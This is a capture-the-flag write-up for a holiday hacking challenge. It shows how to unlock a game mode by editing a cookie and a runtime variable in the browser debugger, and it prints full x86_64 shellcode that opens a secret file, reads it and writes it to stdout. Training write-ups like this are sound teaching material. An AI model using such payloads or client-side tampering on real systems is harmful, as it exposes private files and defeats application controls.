 # Challenge 6: Shellcode Primer

> Complete the Shellcode Primer in Jack's office. According to the last challenge, what is the secret to KringleCon success? "All of our speakers and organizers, providing the gift of ____, free to the community." Talk to Chimney Scissorsticks in the NetWars area for hints.

## The Hint

Let's start by talking to Chimney Scissorsticks for a hint:

> Woo! I'm Chimney Scissorsticks, and I'm having a great time up here!
>
> I've been hanging out with all these NetWars players and not worrying about what's going on next door.
>
> In fact, I've really been having fun playing with this Holiday Hero terminal. You can use it to generate some jamming holiday tunes that help power Santa’s sleigh!
>
> It's more fun to play with a friend but I've also heard there's a clever way to enable single player mode.
>
> Single player mode? I heard it can be enabled by fiddling with two client-side values, one of which is passed to the server.
>
> It's so much more fun and easier with a friend though!
>
> Either way, we'd really appreciate your help getting the sleigh all fueled up.
>
> Then I can get back to thinking about shellcode...

Accessing the nearby sleigh station brings us to the `Holiday Hero` game:

![Holiday Hero](HoldayHero.png)

We can either play the game with a partner, or as the hint suggested, we can figure out a way to enable single player
mode. After a bit of inspection, we can see that there is a cookie that seems to be one of the values we are looking
for:

![Single Player Cookie Value](HoldayHero-dev-console-1.png)

Upon creating a room, however, it does not appear that single player is enabled yet. Some more investigation reveals
that there is a variable being checked by the game itself at runtime:

![Single Player Mode Variable](HoldayHero-dev-console-2.png)

We can use the debugger to pause execution just after creating the game and set single_player_mode to true. Make sure
you select the game thread and not the main thread first:

![Setting Single Player Mode](HoldayHero-dev-console-3.png)

Once we resume execution, we see that Single Player Mode has been enabled and we can proceed to play the game and win!

![Winner Winner](HoldayHero2.png)

Here's what Chimney has to say:

> You did it - rock on! We're all set now that the sleigh is fueled!
>
> So hey, let me talk to you a bit about manual exploitation.
>
> If you run into any shellcode primers at the North Pole, be sure to read the directions and the comments in the shellcode source!
>
> Also, troubleshooting shellcode can be difficult. Use the debugger step-by-step feature to watch values.
>
> Lastly, be careful not to overwrite any register values you need to reference later on in your shellcode.
>
> That's it! I know you can do it!

## The Main Challenge

For this challenge, we need to work our way through a primer in shellcode/assembly. The final challenge consists of
producing a shellcode payload that will open a secret file, read the contents, write it out to `stdout`, and then
cleanly exit.

We can craft the following assembly with the help of the
provided [x86_64 syscall reference](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) to accomplish
our goal:

```nasm
; Get a reference to this
call go
db '/var/northpolesecrets.txt',0
go:
pop rdi

; Call sys_open
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall

; Call sys_read on the file handle and read it into rsp
mov rdi, rax
mov rsi, rsp
mov rdx, 0x100
mov rax, 0
syscall

; Call sys_write to write the contents from rsp to stdout (1)
mov rdx, rax
mov rax, 1
mov rdi, 1
mov rsi, rsp
syscall

; Call sys_exit
mov rax, 60
mov rdi, 0
syscall
```
